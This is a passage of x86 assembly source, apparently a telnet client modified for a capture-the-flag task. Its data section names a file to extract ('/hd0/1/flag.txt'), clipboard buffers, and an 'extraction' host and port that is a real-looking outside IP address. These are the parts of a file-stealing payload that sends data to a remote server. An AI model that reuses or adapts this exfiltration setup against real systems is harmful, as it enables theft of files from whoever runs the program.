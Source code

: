 ```assembly
                'nyancat.dakko.us        - Nyan cat',10,10,0
str2    db      '> ',0
str3    db      'Connecting to ',0
str4    db      10,0
str8    db      ' (',0
str9    db      ')',10,0

str5    db      'Name resolution failed.',10,10,0
str6    db      'Could not open socket.',10,10,0
str11   db      'Invalid hostname.',10,10,0
str12   db      10,'Remote host closed the connection.',10,10,0

; 146.70.116.152:54963
sockaddr1:
        dw AF_INET4
.port   dw 0
.ip     dd 0 ; 146.70.116.152
        rb 10

align 4
@IMPORT:

library network, 'network.obj', console, 'console.obj'
import  network,        \
        getaddrinfo,    'getaddrinfo',  \
        freeaddrinfo,   'freeaddrinfo', \
        inet_ntoa,      'inet_ntoa'
import  console,        \
        con_start,      'START',        \
        con_init,       'con_init',     \
        con_write_asciiz,       'con_write_asciiz',     \
        con_exit,       'con_exit',     \
        con_gets,       'con_gets',\
        con_cls,        'con_cls',\
        con_getch2,     'con_getch2',\
        con_set_cursor_pos, 'con_set_cursor_pos',\
        con_write_string, 'con_write_string',\
        con_get_flags,  'con_get_flags'


i_end:

socketnum       dd ?
buffer_ptr      rb BUFFERSIZE+1
file_error      db 'Error with file', 0xa, 0, 0
file_done       db 'File loaded', 0xa, 0, 0

; file to extract
param           db '/hd0/1/flag.txt', 0
send_data       dw ?
counter         dd 0
identifier              dd 0
clipboard_data          dd 0
clipboard_data_length   dd 0
send_ptr                dd ?

; extraction URL IP:PORT
hostname        db '91.92.116.5:42069', 0

file_struct:
        dd 0            ; read file
        dd 0            ; offset
        dd 0            ; reserved
```